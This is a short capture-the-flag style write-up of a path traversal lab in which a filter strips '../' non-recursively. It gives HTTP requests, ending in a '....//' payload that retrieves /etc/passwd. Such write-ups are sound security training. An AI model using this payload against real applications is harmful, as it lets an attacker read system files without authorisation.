

# File path traversal, traversal sequences stripped non-recursively
# Objective
This lab contains a path traversal vulnerability in the display of product images. \
The application strips path traversal sequences from the user-supplied filename before using it.\
To solve the lab, retrieve the contents of the `/etc/passwd` file.

# Solution
||
|:--:| 
| *Image location* |

```
GET /image?filename=/etc/passwd                 No such file
GET /image?filename=../../../etc/passwd         No such file
```
```
GET /image?filename=....//../....//....//etc/passwd
```

||
|:--:| 
| *Retrieval of `/etc/passwd`* |